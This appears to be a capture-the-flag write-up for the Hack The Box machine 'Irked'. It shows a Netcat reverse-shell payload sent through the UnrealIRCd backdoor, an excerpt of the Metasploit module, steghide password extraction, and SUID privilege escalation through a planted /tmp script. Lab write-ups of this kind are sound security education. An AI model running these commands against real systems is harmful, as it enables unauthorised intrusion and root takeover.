







This box is rated easy difficulty on HTB. It involves us discovering a backdoor vulnerability within an outdated IRC server, allowing us to execute commands and grab a reverse shell. Once on the box, we find a Steganography passphrase inside of a hidden user file which can be used to extract a password text file from the website's image. Finally, an SUID binary in development makes a call to a non-existent file in the `/tmp` directory, letting us execute scripts on behalf of root user.

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP yields no results.

```
$ sudo nmap -p22,80,111,6697,8067,57329,65534 -sCV 10.129.24.27 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-24 16:41 -0400
Nmap scan report for 10.129.24.27
Host is up (0.056s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          40010/tcp6  status
|   100024  1          54247/udp   status
|   100024  1          56973/udp6  status
|_  100024  1          57329/tcp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
57329/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.91 seconds
```

There are seven ports open:
- SSH on port 22
- An Apache web server on port 80
- RPC on ports 111 and 57329
- Others pertain to UnrealIRCd (an open-source IRC server)

We can't do much on that version of OpenSSH without credentials, other than username enumeration. Since there is a web server present, I fire up Ffuf to search for subdirectories and Vhosts in the background to save on time.

## Service Enumeration

### Barren Website
Quickly checking the landing page for the web server just discloses that IRC is almost fully working. My scans don't find anything else interesting, so I'll zero in on the IRC server.



## IRC Server
I'm not entirely familiar with using IRC clients, but connecting to the server seemed to fail. However, using searchsploit to cross-match the software name reveals a few known vulnerabilities for _UnrealIRCd v3.2.8.1_.



We don't yet know the version, but the backdoor command execution intrigued  me. A bit of digging led me to a [Juniper article](https://www.juniper.net/us/en/threatlabs/ips-signatures/detail.CHAT:IRC:UNREALRCD-BACKDOOR.html) explaining that a malicious threat actor had compromised the Unreal3.2.8.1.tar.gz package, adding a backdoor to achieve command execution on affected systems. NIST also lists this vulnerability as [CVE-2010–2075](https://nvd.nist.gov/vuln/detail/cve-2010-2075).

### Exploiting UnrealIRCd Backdoor
Attempting to use the [Metasploit module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/irc/unreal_ircd_3281_backdoor.rb) to obtain a shell kept failing for every IRC port. I suspect it's because this server is using port 6697 (TLS/SSL version) instead of the documented 6667 (plaintext protocol).

Looking at how the exploit works shows that we send the prefix `AB;` to proc the backdoor, and then our payload.

```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Auxiliary::Report
  include Msf::Exploit::Remote::Tcp
  prepend Msf::Exploit::Remote::AutoCheck

[...]

def exploit
    # Connect to the IRC service
    vprint_status("Connecting to IRC service")
    connect
    print_status("Connected to #{rhost}:#{rport}")

    print_status("Sending IRC backdoor command")
    sock.put("AB;" + payload.encoded + "\n")

    # Finished with IRC
    disconnect
  end
end
```

### Initial Foothold
This is extremely simple and can be done over a raw Netcat connection as well since we are just providing data over a socket. Once the connection is stable, we send off our payload after the backdoor prefix. I end up going with a Netcat reverse shell to get a foothold on the box.

```
$ nc -nv 10.129.24.33 6697
(UNKNOWN) [10.129.24.33] 6697 (ircs-u) open
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB; nc 10.10.14.243 443 -e /bin/bash
```



After upgrading the shell via the typical `Python import pty` method, we can start internal enumeration to escalate privileges towards root.

## Privilege Escalation
Listing the users on the machine shows just one other account besides root, named _djmardov_. We have access to read their home directory and by filtering for files, we can discover a hidden backup file in their Documents folder.



This denotes a Steganography backup password, which isn't reused for their system account.

### Steganography Password
Steganography is the practice of hiding data inside another file (like embedding a message in an image or audio) so that its existence is concealed. It's used to secretly transmit information without raising suspicion, often bypassing detection mechanisms that would flag obvious encryption.

The only image we've found so far is the emoji on the website, so I download it to my local machine and use a tool called Steghide to attempt to extract any hidden elements.

```
$ sudo apt install steghide

$ steghide extract -sf irked.jpg

$ cat pass.txt
```



This prompts us with a passphrase to unlock the secret file, which is the one we found on the filesystem. Displaying its contents grants us the plaintext password for the _djmardov_ user, letting us grab a shell as them over SSH.

At this point we can grab the user flag in their home directory and focus on routes to gain root access.

### SUID Binary
Peeking around the filesystem for any other configuration or backup files does not reveal anything. While checking for binaries with the SUID bit set on them, I discover a custom one named **viewuser** which seems to be in development in order to test and set user permissions.



A test run against it displays some output for our current user, along with an error message showing that a call using sh can not find the `/tmp/listusers` file.

It's a good bet that the binary is looking to execute this file and since we have write permissions there, we could provide a malicious script to be ran with root privileges. I end up having it set an SUID bit on the bash binary, allowing us to spawn a root shell.

```
$ echo 'chmod +s /bin/bash' >> /tmp/listusers

$ chmod +x /tmp/listusers

$ /usr/bin/viewuser

$ /bin/bash -p
```



After executing it, the binary runs our script and rewards us with a Bash shell as root user. This box was pretty easy all things considered, but Steganography admittedly has no real use in general Cybersecurity, making it more of a gimmick for CTFs and I can see how that would've tripped some people up.

I hope this was helpful to anyone following along or stuck and happy hacking!
